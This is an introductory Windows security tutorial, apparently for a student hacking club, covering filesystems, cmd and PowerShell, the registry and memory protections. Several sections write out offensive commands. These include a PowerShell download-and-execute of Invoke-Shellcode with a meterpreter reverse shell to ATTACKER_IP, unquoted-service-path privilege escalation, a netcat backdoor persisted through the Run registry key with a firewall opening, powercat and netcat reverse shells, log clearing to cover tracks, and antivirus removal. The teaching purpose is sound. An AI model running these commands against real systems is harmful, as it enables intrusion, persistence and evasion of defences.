

# Introduction to Windows

## Table of Contents
0. Foreword
1. Windows and Associated Filesystems
	- 1.1 Windows Basics(?)
	- 1.2 File Allocation Table (FAT)
	- 1.3 New Technology File System (NTFS)
	- 1.4 Resilient File System (ReFS)
2. Additional Windows Tools
	- 2.1 Pentesting Tools on Windows
	- 2.2 .Net Framework
	- 2.3 Windows Binaries with OllyDbg
3. Windows Command Prompt
	- 3.1 Useful Commands
	- 3.2 Basic Batch File Scripting
4. Windows Powershell
	- 4.1 Powershell Commands
	- 4.2 Powershell Exploitation / Pen-testing Frameworks
	- 4.3 Powershell Access Control Lists (ACL)
5. Windows Registry
	- 5.1 Overview
	- 5.2 CLSID
	- 5.3 Startup Program
	- 5.4 Privilege Escalation Using Registry
6. Communicating with Windows
	- 6.1 A Possible Method
	- 6.2 Powercat
	- 6.3 Telnet
7. Windows Protection Mechanisms
	- 7.1 DEP
	- 7.2 ASLR
	- 7.3 SEHOP

---

### 0. Foreword
This document serves as a quick overview of the different aspects of Microsoft Windows. It is by no means comprehensive nor extensive. It just aims to help you take home something new at the end of the document. If you are attending this live, I will see what I can do additionally on my own Windows installation to demonstrate and highlight some points.

**It would be best if you have Windows for this introduction!**

---

### 1. Windows and Associated Filesystems

#### 1.1 Windows Basics(?)
Welome to Microsoft Windows. Maybe here's some interesting stuff about it

Enabling **GodMode** - Simply create a folder (e.g. on the Desktop) and name it as "GodMode.{ED7BA470-8E54-465E-825C-99712043E01C}" in order to access the many features you can customize graphically on Windows (largely similar to Control Panel).

Enabling **Bash Shell** - If you can't stand CMD/Powershell, you can enable the "Windows subsystem for Linux (Beta)" option in "Turn Windows Features on/off" too

About **Telemetry** - Microsoft collects data from its users. One of the typical ways to go about disabling it is to go the the Group Policy Editor `gpedit.msc` and set the value of "AllowTelemetry" to 0 (i.e. Don't collect). However, it is always important to read the fine print:



In essence, Microsoft still collect data from the typical PC user because 0 is like 1 :P

*Locking Screen + Fun* - Simply run `rundll32.exe user32.dll, LockWorkStation` to lock someone's computer (i.e. goes to the login screen). Note that `rundll32.exe` allows us to run DLLs (dynamically loaded libraries) as an application, which in this case is `user32.dll`. You can do other stuff with `user32.dll` by referring [here](https://www.autoitscript.com/forum/topic/21848-functions-in-user32dll/)

*Running scripts* - You can use `wscript.exe [SCRIPT JS/VBS]` or `cscript.exe [SCRIPT JS/VBS/C#]` in order to run scripts in different languages


#### 1.2 FAT12/FAT16/FAT32/exFAT
The file allocation table (FAT) system uses a static index table to store an entry for each cluster (indexed), which indicates the entry of the next cluster in the file, EOF, unused disk space and reserved disk space. It can be briefly modelled using the following diagram:

```
INDEX IN FAT   01  02  03  04  05  06  07  08  09   10  11  12  13  14  15
ENTRY IN FAT   14  01  EOF 08  12  11  03  05  FREE RES 14  02  RES 07  FREE
DATA (CLUSTER) 'A' 'H' 'C' 'G' 'E' 'B' 'S' 'R' 'P'  'Q' '1' 'Y' '3' 'T' '!'

```
Therefore, if we try to check the data starting at index 04, we get "GREYHATS" by following the "ENTRY IN FAT" column in a linked-list fashion.

**Question**: What is the data starting at index 06?

#### 1.3 NTFS (New Technology FS, started with Windows NT 3.1)
The new technology file system (NTFS) is currently the more dominant FS used by Windows versions occupying significant market share (e.g. 7/8/8.1/10). We first look at the layout of a formatted NTFS Volume:

```
------------------------------------------------------------------------
| Partition Boot Sector | Master File Table | System Files | File Area |
------------------------------------------------------------------------
```

Unlike the FAT, NTFS generally stores information using a B-Tree, here's an image depicting an example:


We can see that for each directory above, we have $INDEX_ROOT with 2 keys `0` and `120.txt`. They each then split into another B-Tree Node with more keys, so on so forth...
(For a node with A-B-C as the 3 keys, we can divide into 3 sections, namely A-B, B-C and C-?)


Let's focus on a little more details. Here are some attributes of a typical NTFS file that might be of interest:
```
$FILE_NAME - Stores filename along with creation time, change time etc.

$OBJECT_ID - Attribute holding an ID used by Distributed Link Tracing Service.
(Example: You have a shortcut to C:\secret.txt, you move it to C:\HIDDEN\secret.txt. The shortcut still works because of the ID pointing that very file!)

$DATA - Contains the location of data (not the data itself), applies typically for files only
```

We also note that from NTFSv3.0+, The $SECURITY_DESCRIPTOR attribute is combined into a single metadata file $SECURE, which has the following key attributes:
```
$SDS - Contains a list of all $SECURITY_DESCRIPTOR on the volume
	(Per $SECURITY_DESCRIPTOR, padded to 16 bytes each)
	$SID - A unique entry identifying a user
$SDH - Hash of all $SECURITY_DESCRIPTOR used for indexing purposes
```
At this junction, we just need to know that the Security ID (SID) is used to identify a user/group account in Windows.


If you are detail-oriented, you may visit [here](http://ntfs.com/ntfs_basics.htm) to find out more.

#### 1.4 ReFS (Resilient FS, deployed first Win Server 2012)
The Resilient file system is used mainly to improve data availaibility and backup capabilities. This is largely achieved by setting up a mirror / parity space (in simpler terms, a working backup).

Here are some features MS says about ReFS:
```
- *Integrity*: Repairs corrupted files using the copy
- *Availaibility*: If no copy exists, salvage - remove unrepairable, corrupted data to prevent it from affecting other operations
- *Scalability*: Can support volume sizes up to 2^78 bytes (and up to 2^64 - 1 bytes per file / files per directory)
```

---

### 2. Additional Windows Tools for Security

#### 2.1 Pentesting Tools on Windows
Normally the pentesting tools we use are typically installed on a Linux system. To try avoiding the hassle of running some VM, you can consider [this](https://tools.pentestbox.org) as a (very) viable alternative.

#### 2.2 .Net Framework
The .Net Framework is used on Windows. It introduces the Framework Class Library (FCL) and language interoperability across several programming languages (e.g. VB.net, C# ...) In fact we can have a program that is as follows:


This program can be obtained [here](bin/dotnet.exe) and is written in C#. **Exercise**: try to get yourself validated!

Hint: You can find yourself a .Net decompiler such as [ILSpy](http://ilspy.net) and use it to find the password ;)

After you have completed this exercise, just take note that .Net programs can be obfuscated (i.e. making legible symbols look like something else completely). An example of such a program is [Obfuscar](https://obfuscar.codeplex.com).

#### 2.3 Windows Binaries with OllyDbg
Windows binaries are typically stored in the Portable Executable (PE) format for both 32 and 64-bit systems. They come in the form of .exe / .dll / .mui etc. An in-depth detail into the structure of the PE format will not be done here.

In order to see what Windows binaries do, one option is to use a debugger such as [OllyDbg](http://www.ollydbg.de) in order to figure out what a binary does. Some common options include:

- *step over*: Go to the next line in current scope
- *step into*: Descent into function call for current line. Same as step over if it there are no function calls.
- *step out*: Proceeds until next `return` equivalent

Exercise: Let us try to find the magic number [here](bin/pe.exe) for this 32-bit .exe file. (Time to recall some x86!)

To help you out, you can find where the main function of the program is by using <kbd>Ctrl + G</kbd> and type `main` to locate the main function. Feel free to play around with the program!

---

### 3. Windows Command Prompt
The Windows command prompt is normally invoked with certain credentials, we can initialize it as a normal user first (that is ourselves). Simply hit <kbd>Windows + R</kbd> and type `cmd` and press Enter to launch the command prompt.

An equivalent to `man [command]` in Linux would be `[command] /?`, which will prove useful if you are stuck with any command. Note that `/?` is considered a "switch" (basically options).

Another note is the Absolute pathname difference:
```bat
Format: [Drive]:\[Path]\[File].[Extension]
Example: C:\Program Files\Java\jdk1.8.0_01\bin\javac.exe
```

#### 3.1 Useful Commands

Some useful commands for Windows Command Prompt are as follows:

Directory/File-related commands
```bat
dir /Q /P
- display contents of directory with file owner, paginated

cd [DIRECTORY]
- change to specified directory

xcopy D:\Data Z:\Backup /E /G /H
- Copies encrypted files, all subdirectories and hidden/system files from source to destination (basically backup)

dir C:\ /s /b | find "SECRET"
- Search local hard drive C:\ for text "SECRET"

findstr /S /I confidential *.*
- Search for all files in subdirectories etc. for the word confidential, non-case sensitive


fc file1.txt file2.txt
- Compares if 2 files are the same or not, equivalent to 'diff' in Linux

fciv [-sha1] [FILE]
- Generates the md5/sha1 checksum of a file
```

Windows Services / Tasks
```bat
sc start [SERVICE] - start a specific Windows Service
sc stop [SERVICE] - stop a specfic Windows Service
tasklist /svc - List all processes, their PIDs and corresponding Windows Services (if any)
taskkill /pid - Kill a process with a specific PID
```

net/netsh command
```bat
net accounts
- Display local user account policies for passwords (e.g. reset every 30 days etc.)

netsh firewall set opmode disable
- Quickly disable built-in Windows Firewall (Not in WIN10)
```

reg command (For editing registry key/values)
```bat
reg add [\\TargetIPAddr\][RegDomain]\[Key]
- Add new [Key] to [RegDomain] at specified IP address. Assume local machine if no remote machine is specified

reg export [RegDomain]\[Key] [FILE]
- Export all keys in [RegDomain] to [File]

reg import [RegDomain]\[Key] [FILE]
- Import all keys from [FILE] to [RegDomain]

reg query [\\TargetIPAddr\][RegDomain]\[Key] /v [VALUENAME]
- Query a machine and get VALUENAME of a specific key
```

Windows Management Interface Command line (wmic)
```bat
FORMAT: wmic [alias] [where clause] [verb clause]

wmic process list full
- Displays all information about every single process, including the full path of the executable running. Switch 'full' to 'brief' for lesser details.

wmic startup where name='nc.exe'
- Displays a list of startup processes, useful for finding malware / programs that run on startup. In this case, we try to check if nc.exe is launched at startup.

wmic useraccount list full
- Displays a full list of accounts on the local machine, including whether they have passwords set or not etc. (Useful to determine what accounts we can try to compromise)

wmic qfe list full
- Displays a full list of patches and service packs installed on a service machine (Useful to determine if an exploit works) [qfe = Quick Fix Engineering]

wmic product get name /value
- Gets all software names

wmic product where name="[NAME]" call uninstall /noiteractive
- Uninstalls software without any interactive components. Useful for removing anti-virus etc.
```

Invoking Useful GUIs using command line:
```bat
lusrmgr.msc - Local User Manager
services.msc - Services Control Panel
secpol.msc - Security Policy Manager
eventvwr.msc - Event Viewer
regedit - Registry Editor
```

Windows Logging Features
```bat
wevtutil el
- Get a list of logs for Windows Events

wevtutil -cl [LOGNAME]
- Clear a specific log from Windows Events. Good for covering up your own tracks...
```

Other Commands
```bat
whoami / echo %username%
- shows login name of currently logged in user

netstat -a -n 2
- Displays all connections and listening ports (in decimal form), auto-refresh every 2 seconds

systeminfo
- Dumps a whole lot of content about the current OS (E.g. if you are malware writer, you would know you are inside a VM and simply not behave maliciously for dynamic analysis...)

schtasks
- Displays list of scheduled tasks (similar to cronjobs)
```

Runnning as another user (similar to sudo)
```bat
runas /user:administrator regedit (will ask for password)
- Run as administartor for a given program (e.g. regedit)
```

In Windows we follow the PATH environment variable in order to deduce where executables can be found. To view your PATH, simply type `path`. However, if you wish to insert your own malicious directory as the directory to be search first permanently, you may use:
```
setx path "C:\BAD_STUFF\;%path%"
```
This will lead to C:\BAD_STUFF being search for first instead of %path%. Note that it also works without `setx` but in that case it only works for the current session.


#### 3.2 Basic Batch File Scripting

We can also write a basic batch files using the .bat extension:
```bat
SET name=Bob The Builder
:: Enter input for a variable with a given prompt to user
SET /P filename=Enter a file name:
:: Your typical if/else statements
IF EXIST %filename% (
	:: Deletes file after prompting user
	DEL /p %filename%
) ELSE (
	ECHO %filename% does not exist!
)
GOTO loopyloop
:: Single-line comment, will be skipped! Note: GOTO can be used as loops!
:: Single colon for labels, we can do loops using GOTO
:loopyloop
:: Single line for-loop (prints all .txt files)
FOR %%F IN (*.txt) DO echo %%F

:: Perform a function call and print out the result
:: In this case, we are calling function add param1=10 and param2=11
CALL :add 10 11
:: should echo 21
ECHO %RESULT%

:: Define the add function
:add
:: Ensures all variables set applies to "local context"
SETLOCAL
set retval=0
:: Note: %1 stands for first argument, %2 for second ...
set a=%1
set b=%2
:: Use /A to perform arithmetic operations
set /A "retval=a+b"
:: Terminate "function scope" and set result as return value
ENDLOCAL & SET result=%retval%
```

Again, this is just a very small program and there are many other methods / functions out there. You may refer to [this link](https://en.wikibooks.org/wiki/Windows_Batch_Scripting) For more details

---

### 4. Windows Powershell
Powershell is the succesor to `cmd.exe`. Note that all command (Cmdlets) in Powershell can also be run in Command Prompt with the following command:
```bat
powershell -c [CMDLET]
```

#### 4.1 PowerShell Commands
Powershell makes use of Cmdlets, which are basically light-weight commands are typically organized as Verb-Noun strings. As usual, we start off with the most important stuff on how to get help:
```powershell
get-help [COMMAND]
- Get help for a specific command, can use "a*" to get help for commands starting with 'a'

[CMDLET] -?
- Gets the help page for a specific CMDLET
```

Here are some of the most used commands for 'reasons':
```powershell
Copy-Item [SRC] [DEST]
- Copy an item from [SRC] to [DEST] (similar to cp)

Move-Item [SRC] [DEST]
- Move an item from [SRC] to [DEST] (similar to mv)

Get-Content [FILE]
- Displayes the content of a file (similar to cat)

Get-Process
- Get a process listing (similar to ps)

Get-Service | where { $_.Status -eq "running"} | Select-Object -last 10
- Gets a list of services that are "running", then we select the last 10 of them

Select-String -Path "C:\MyFolder\*.txt" -Pattern "PASSWORD" -CaseSensitive
- Select all text files in C:\MyFolder and find all files containing the string "PASSWORD" (case-sensitive)

Get-FileHash -Algorithm SHA1 [FILE]
- Get the SHA1-hash of [FILE]
```

Powershell can also do some pretty nice networking stuff, such as conducting a ping sweep (e.g. from 10.10.10.1 to 10.10.10.255):
```powershell
1..255 | % {echo "10.10.10.$_"; ping -n -1 10.10.10.$_ | Select-String ttl; }
```
(We ping 1 time to each address, get all those with replies with "ttl" to know with IP addresses have hosts responding to pings)

Or conduct a TCP Port scan in a similar manner:
```powershell
1..65535 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("12.34.56.78", $_)) | "Port $_ is open!" }
```
(Create a new `Net.Socket.TcpClient` that attempts to connect to 12.34.56.78 for ports 1-65535) and tells us that "Port _ is open" for all open ports (i.e. TCP connection established)

Or get a file via HTTP (equivalent of wget):
```powershell
(NEW-OBJECT System.Net.Webclient).DownloadFile("http://10.10.10.10/nc.exe", "nc.exe")
```
(Downloads the file nc.exe from 10.10.10.10 as 'nc.exe' placed in the present working directory. Done via creating a new `System.Net.Webclient` object)

Or let ourselves through the firewall:
```powershell
Get-NetFirewallRule -all
- Get all existing firewall rules

New-NetFirewallRule -Action Allow -DisplayName YOUSHALLPASS -RemoteAddress 10.10.10.25
- Adds a new firewall rule "YOUSHALLPASS" that allows all incoming traffic from IP address 10.10.10.25

```

Additional utilies can also prove useful, e.g. ASCII to base64:
```powershell
[System.Convert]::Tobase64String([System.Text.Encoding]::UTF8.getBytes("NUSGREYHATS"))
```
Converts the string "NUSGREYHATS" to its base64 equivalent, which is `TlVTR1JFWUhBVFM=`

We can also find some other information that maybe interesting:
```powershell
Get-HotFix
- Provides a list of all HotFixes installed on this Windows OS

PS C:\> cd HKLM:
PS C:\> ls
- Change into HKLM (Windows registry) and display sub-directories etc. (i.e. navigation)
```

#### 4.2 Powershell Exploitation / Pen-testing Frameworks
In order to make all this Powershell stuff abit more efficient, we can make use of [Nishang](https://github.com/samratashok/nishang), A framework using Powershell for offensive security and penetration testing. It includes tools such as KeyLogger, Get-PassHashes (password hashes of user accounts), Get-WLAN-Keys (Keys used for WLAN networks etc.)

Alternatively, we also have [Powersploit](https://github.com/PowerShellMafia/PowerSploit), which happens to be a pretty neat thing for executing bad stuff. Most notably, assuming PowerSploit is already on the target Windows machine, we can try downloading a new Cmdlet named `Invoke-ShellCode` via the following:
```powershell
IEX(New-Object Net.WebClient).DownloadString("http://10.10.10.1:8000/CodeExecution/Invoke-Shellcode.ps1")
```
Note that `IEX` is the short-hand for `Invoke-Expression`. This basically Downloads `Invoke-Shellcode` as a string to be invoked as code later.

To play around with the new `Invoke-Shellcode`, we can launch anything we want, such as:
```powershell
Invoke-Shellcode -Payload [NUKETHECOMPUTER]
```
Which may effective nuke the computer (i.e. explode). Maybe something more realistic can be to set-up a reverse shell with a combination of meterpreter as illustrated [here](https://null-byte.wonderhowto.com/how-to/hack-like-pro-use-powersploit-part-1-evading-antivirus-software-0165535/):
```powershell
PS > Invoke-Shellcode -Payload windows/meterpreter/reverse_http -lhost [ATTACKER_IP] -lport [ATTACKER_LISTENING_PORT] -Force
```
(Basically you get connection from Windows to you so you gain control of it remotely, will be elaborated below)

Feel free to explore more of it if you so wish!

#### 4.3 Powershell Access Control Lists (ACL)
Microsoft files / directories too have permissions in the form of Access Control Lists. For instance the following command displays access control for a particular directory (e.g. `C:\secret`):
```powershell
((Get-Item C:\secret).GetAccessControl('ACCESS')).Access
```

Consider the following sample output of the above command:
```powershell
FileSystemRights  : ReadAndExecute
AccessControlType : Allow
IdentityReference : My-PC\ary
IsInherited       : False
InheritanceFlags  : ContainerInherit, ObjectInherit
PropagationFlags  : None
```
Note that over here IdentitiyReference typically goes by DOMAIN\name when we try to recognize users / groups.

Suppose I want to modify `C:\secret`, then I can assign myself the following permissions using the following mini Powershell script (yes you can script things!:
```powershell
$Acl = (Get-Item C:\secret).GetAccessControl('Access')
$New-Perm = New-Object System.Security.AccessControl.FileSystemAccessRule(My-PC\ary, 'Modify', 'ContainerInherit,ObjectInherit', 'None', 'Allow')
$Acl.setAccessRule($New-Perm)
Set-Acl -Path C:\secret -AclObject $Acl
```
Basically, we assign `$Acl` to the current ACL settings. Then, we create new permission setting `$New-Perm` that allows the My-PC\ary user to modify `C:\secret` and this applies to all folders (ContainerInherit) and files (ObjectInherit) underneath it. We finally apply the new access rule using `Set-Acl`.

In case it is difficult to understand, it is (roughly) equvalent to the following in a Linux bash shell (asuming My-PC\ary is owner):
```sh
chmod u+w -R /secret
```

---

### 5. Windows Registry

#### 5.1 Overview of Windows Registry
The Windows Registry is a "central storehouse" for all settings on Windows operating systems. They can be broadly classified into the following:

- HKEY_CLASSES_ROOT -> Contains information on file types, default programs for file type etc.
- HKEY_CURRENT_USER -> Contains user-specific information built from HKEY_USERS during logon process
- HKEY_LOCAL_MACHINE -> Contains information about installed hardware and software
- HKEY_USERS -> Contains program settings, desktop configuration etc. for all users
- HKEY_CURRENT_CONFIG -> Contains information about hardware configuration

In order to import a registry, we can store values inside a .REG file that states all the keys we want. We can also export Windows Registry to a .REG file too:
```
"<Value Name>"=<Value Type>:<Value Data>
- E.g. "MyNewValue"=hex:FF
```

#### 5.2 CLSID
We note that that there is a CLSID folder at `HKEY_CLASSES_ROOT\CLSID`, which contain subfolders looking something like `{018D5C66-4533-4307-9B53-224DE2ED1FE6}`. This (at least in Windows 10) represents the globally unique identifier (GUID) for programs and services. For example, we know that the GUID {018D5C66-4533-4307-9B53-224DE2ED1FE6} belong to Microsoft OneDrive:


For instance, changing System.isPinnedToNameSpaceTree to 0 removes OneDrive from the Explorer Folder tree (left panel). Note that it is OS-specific, e.g. OneDrive in Windows 8 has CLSID `{8E74D236-7F35-4720-B138-1FED0B85EA75}` instead.

We can also directly reach a specific control panel applet / Windows feature by using <kbd>Windows + R</kbd> and using shell:::{GUID}, for instance:
```
shell:::{7007ACC7-3202-11D1-AAD2-00805FC1270E}
```
brings up the Network connections folder on Windows 10. For a list of typical GUIDs on a Windows 10 system, you may refer to [this](http://winaero.com/blog/clsid-guid-shell-location-list-in-windows-10-anniversary-update/) guide here.

#### 5.3 Startup Programs

If we want to determine which programs run at startup, we can search the following locations:
```bat
reg query HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
reg query HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
```

#### 5.4 Privilege Escalation Using Registry
Privilege escalation is the act of exploiting bugs / design flaws / configuration problems to gain elevated access to resources normally protected from an application / user. Over here, we consider the case of **unquoted service paths**.

We first attempt to find services that are automatically started that is not a core Windows service and doesn't contain quotes:
```bat
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```
(Find services with "Auto" keyword in it without `"` or `C:\Windows\\`)

Suppose it returns the following result:
```
MyVulnService                       	MyVulnService
C:\Program Files (x86)\MyProgramFolder\MySubfolder\Executable.exe
Auto
```

In that case, we know that `MyVulnService` may be exploited. Because it is unquoted i.e. not `"C:\Program Files (x86)\MyProgramFolder\MySubfolder\Executable.exe"`, Windows will check for the first .exe file it finds in the following order:
```
C:\Program.exe
C:\Program Files.exe
C:\Program Files (x86)\Program.exe
C:\Program Files (x86)\MyProgramFolder\A.exe
C:\Program Files (x86)\MyProgramFolder\MySubfolder\Executable.exe
```
This is due to the way [CreateProcess](https://msdn.microsoft.com/en-us/library/windows/desktop/ms682425(v=vs.85).aspx) works in Windows OSes.

Notice that if we put `A.exe` in MyProgramFolder, it will be executed before the original `Executable.exe` which is called by `MyVulnService`. The last thing to check is that we have permissions to that folder using the `icacls` tool:

```bat
icacls "C:\Program Files (x86)\MyProgramFolder"
C:\Program Files (x86)\Program Folder Everyone:(OI)(CI)(F)
                                      .....
Successfully processed 1 files; Failed processing 0 files
```
(Note: `F` = full control, `OI` = object inherit (subfiles), `CI` = container inherit (subdirectories))

Since we alredy know that `Everyone` has full control of that folder, then placing `A.exe` inside will allow `A.exe` to be run as SYSTEM. So if `A.exe` is a shell equivalent, we effectively gain "root access".

A whole other list of possible attacks on different versions of Windows OS can be found [here](https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/)

---

### 6. Communicating with Windows
Very often, it is highly annoying to communicate with Windows on remote systems. One possible alternative is to try installing `netcat` and establishing a reverse (TCP) shell. That is, if we are targetting the windows system, we want it to connect back to us:
```
Reverse Shell (What we want):

		-------  WIN connect to YOU -----------
		| YOU |  <----------------- | WINDOWS |
		-------		     		    -----------

Bind Shell (The other kind):

		-------  YOU connect to WIN -----------
		| YOU |  -----------------> | WINDOWS |
		-------		     		    -----------
```

For this section, we assume you can obtain a shell / command prompt equivalent connection from your system to the Windows remote system. This can be potentially achieved using the Meterpreter tool as outlined [here](https://www.offensive-security.com/metasploit-unleashed/persistent-netcat-backdoor/).

#### 6.1 A Possible Method
We first need to upload the [Windows netcat](https://eternallybored.org/misc/netcat/).
```
upload /path/to/nc.exe C:\Windows\System32
```
This places nc.exe at the location `C:\Windows\System32\nc.exe`.

If we want a persistent connection, we can add netcat as a startup program by modifying the Windows registry (assume using port 9191):
```bat
reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc -d 'c:\\windows\\system32\\nc.exe -Ldp 9191 -e cmd.exe'

(Check that the key "nc" really has data we want)
reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc
```

Next, we need to open a port on Windows Firewall for us to run `nc`:
```
netsh firewall add portopening TCP 9191 "NET CAT IS GOOD CAT" ENABLE ALL
```

We also make sure netcat locally on our (Linux) machine listens to an incoming connection (e.g. port 9191):
```
nc -l -p 9191
```
Finally, we can execute netcat on Windows which gives us a command prompt (Supposed your IP address is 123.45.67.89:
```
nc 123.45.67.89 9191 -e cmd.exe
```

#### 6.2 Powershell
If you prefer alternatives, you can use [powercat](https://github.com/besimorhino/powercat), which is essentially a Powershell version of netcat. To install it in Windows:
```powershell
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```

Instead, of netcat, you kind now connect back to the same listening `nc` instance on your (Linux) machine:
```
powercat -c 123.45.67.89 -p 9191 -ep
```
Note: use `-ep` for powershell, `-e cmd` for command prompt

**Mini-exercise**: If you have Linux and Windows on your computer, try setting up a reverse shell from your Windows back to your Linux!

#### 6.3 Telnet

Under very obscure situations, you may consider trying telnet despite the need for administrator privileges. To enable it on newer systems (e.g. Windows 10):
```bat
dism /online /Enable-Feature /FeatureName:TelnetClient
```

For your (Linux) machine (IP 123.45.67.89) that is listening (assume we want to execute `ls` command):
```bash
ls | nc -l -p 9191
```

And for the Windows machine (Asssume port 9191):
```bat
telnet 123.45.67.89 9191
```

---

### 7. Windows Protection Mechanisms
Due to how common buffer overflow attacks might come to one's mind, Microsoft has built in some mitatigation techniques into Windows that help protect memory manipulation by adversaries.

#### 7.1 Data Execution Prevention (DEP)
Typically, an attacker might attempt to store malicious code in an area of memory not intended for it. Attackers then subsequently modify the eip of a program vulnerable to buffer overflow to point to the malicious code:
```
		  Some  Memory         Program Execution Stack
          ------------              ------------
0xBABEBABE| BAD CODE |              |   ....   |
          ------------              ------------
             ......          eip -> |0xBABEBABE|
          ------------              ------------
0xBABEBEEF| BAD CODE |              |   ....   |
          ------------              ------------
```
DEP simply marks these regions of memory as non-executable. Therefore, even if `BAD CODE` exists, it cannot be executed, nullifying the damage caused by a buffer overflow.

#### 7.2 Address Space Layout Randomization (ASLR)
Traditionally, core processes are assigned to predictable memory regions upon system startup. This implies that an attacker can targe specific core processes as and when they are vulnerable.

```
      Target Program Stack           After ASLR
          ------------              ------------
0x12345678|   VULN   |        0x??? |   ....   |
          ------------              ------------
             ......                 |   ....   |
          ------------              ------------
0x12ABCDEF|   VULN   |        0x??? |   ....   |
          ------------              ------------
```
In the above example, we could hypothetically modify bytes located from 0x12345678 to 0x123ABCDEF in some manner that grants code execution to the attacker since we known its memory.

However, ASLR will just randomize all these memory locations, making it difficult for an attacker to guess the location of a given targeted process. Therefore, arbitrary code execution becomes less reliable for an adversary.

#### 7.3 Structured Exception Handler Overwrite Protection (SEHOP)
Exceptions are anomalous conditions requiring special processing that disrupts program flow execution. In Windows, a dispatcher is responsible for exceptions, and stores them in a linked list of exception registration records:

```c++
typedef struct _EXCEPTION_REGISTRATION_RECORD {
   struct _EXCEPTION_REGISTRATION_RECORD *Next;
   PEXCEPTION_ROUTINE                     Handler;
} EXCEPTION_REGISTRATION_RECORD, *PEXCEPTION_REGISTRATION_RECORD;

```

By corrupting the `Next` Pointer or the `Handler` routine, we are able to execute code that should not be executed by simply raising an exception (e.g. overwrite return address on the stack).

```
      -------   Next   -------    Next     -------  
	  | EX1 |  ----->  | EX2 | -----XXXXX> | EX3 |
      -------          -------     |       -------
                                   |
      Change Next Pointer of EX2   |       -------
      to point to BADEX instead    |------>|BADEX|
                                           -------
```

Many other mitigation techniques (e.g. [Heap Protection](https://blogs.technet.microsoft.com/srd/2009/08/04/preventing-the-exploitation-of-user-mode-heap-corruption-vulnerabilities/)) has also been implemented. Do feel free to find out more (Microsoft technet isn't a bad place to start)

## The End

Thanks for reading through this whole document, hope you learnt something! :) But Github Markdown :'(
